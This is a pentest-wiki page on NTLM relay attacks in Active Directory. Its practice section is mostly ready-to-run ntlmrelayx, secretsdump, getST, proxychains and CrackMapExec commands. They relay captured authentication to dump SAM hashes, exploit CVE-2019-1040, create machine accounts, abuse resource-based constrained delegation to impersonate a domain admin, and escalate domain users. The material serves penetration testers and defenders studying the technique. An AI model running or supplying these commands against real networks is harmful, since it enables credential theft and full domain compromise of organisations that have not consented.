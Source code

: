 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.001
---
```


# NTLM relay

## Theory

After successfully [forcing a victim to authenticate](../forced-authentications/) \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../forced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../forced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Credentials theft" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="Credentials theft \(SOCKS\)" %}
The following command will try to relay the authentication over SMB and open a SOCKS proxy.

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Domain account creation" %}
The following command will try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\), abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\) and finally, [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine \(`--delegate-access`\).

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="Domain account promotion" %}
{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACLs](../abusing-aces.md)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\).

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
{% endtab %}
{% endtabs %}

### Tools features

{% tabs %}
{% tab title="ntlmrelayx" %}
This tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [IPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) be enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "unsigning cross-protocols NTLM relay attacks" \(SMB to LDAP/S\).
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to relay connections for specific target users.

{% hint style="info" %}
In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker can be added to the targets to combine ntlmrelayx with Responder servers and capture a NTLM hash with a custom challenge while relaying
{% endhint %}

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).

```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```
{% endtab %}

{% tab title="Inveigh-Relay" %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" caption="" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" caption="" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire" caption="" %}

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" caption="" %}

{% embed url="http://davenport.sourceforge.net/ntlm.html" caption="" %}

